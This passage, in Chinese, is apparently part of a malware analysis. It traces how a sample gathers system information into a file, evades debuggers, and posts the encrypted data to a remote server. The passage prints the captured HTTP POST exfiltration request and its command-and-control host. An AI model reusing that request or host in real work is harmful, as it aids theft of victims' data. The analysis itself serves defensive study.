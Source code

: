 Wcl.doc完成生成后格式如下，主要包含系统临时文件，系统信息等：

[![](https://p5.ssl.qhimg.com/t01c4fde581a59996d2.png)](https://p5.ssl.qhimg.com/t01c4fde581a59996d2.png)

4049e0：

此函数主要功能是读取上一步生成的本地计算机信息，并发送给远控端。

[![](https://p4.ssl.qhimg.com/t01dce9e7109fa2be7a.png)](https://p4.ssl.qhimg.com/t01dce9e7109fa2be7a.png)

此处包含一些迷惑调试器的代码，如图4bca处：

[![](https://p5.ssl.qhimg.com/t015db1ec616b4ce91e.png)](https://p5.ssl.qhimg.com/t015db1ec616b4ce91e.png)

但在IDA中可以正常识别：

[![](https://p5.ssl.qhimg.com/t01d4b5e0ab3a1667e1.png)](https://p5.ssl.qhimg.com/t01d4b5e0ab3a1667e1.png)

由于eax=0，nop word ptr「eax」操作无意义，因此在OD中选择delete analysis后继续单步调试即可：

[![](https://p4.ssl.qhimg.com/t01131e95c0f38fac72.png)](https://p4.ssl.qhimg.com/t01131e95c0f38fac72.png)

构造好的post body内容如下，包括分割符及加密后的前面窃取的计算机信息文件。

[![](https://p2.ssl.qhimg.com/t015d06607b3e03c52e.png)](https://p2.ssl.qhimg.com/t015d06607b3e03c52e.png)

其中404dd0主要功能是通过http协议将窃取的计算机信息发送到pingguo2.atwbpage.com

[![](https://p3.ssl.qhimg.com/t01352523119f3d7a01.png)](https://p3.ssl.qhimg.com/t01352523119f3d7a01.png)

[![](https://p1.ssl.qhimg.com/t01d71a31114e8a0667.png)](https://p1.ssl.qhimg.com/t01d71a31114e8a0667.png)

完整的post请求如下：

```
POST /home/jpg/post.php HTTP/1.1 Accept: */* Host: pingguo2.atwebpages.com Referer: http://pingguo2.atwebpages.comhome/jpg/post.php Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywhpFxMBe19cSjFnG Accept-Language: en-us User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; .NET CLR 1.1.4322) Content-Length: 5571 Connection: Keep-Alive Cache-Control: no-cache

pingguo2.atwebpages.com/pingguo2.atwebpages.com
```

[![](https://p3.ssl.qhimg.com/t0184c9761c9731c24d.png)](https://p3.ssl.qhimg.com/t0184c9761c9731c24d.png)

```
POST /home/jpg/post.php HTTP/1.1 Accept: */* Host: pingguo2.atwebpages.com Referer: http://pingguo2.atwebpages.comhome/jpg/post.php Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywhpFxMBe19cSjFnG Accept-Language: en-us User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; .NET CLR 1.1.4322) Content-Length: 5571 Connection: Keep-Alive Cache-Control: no-cache

pingguo2.atwebpages.com/home/jpg/post.php
```
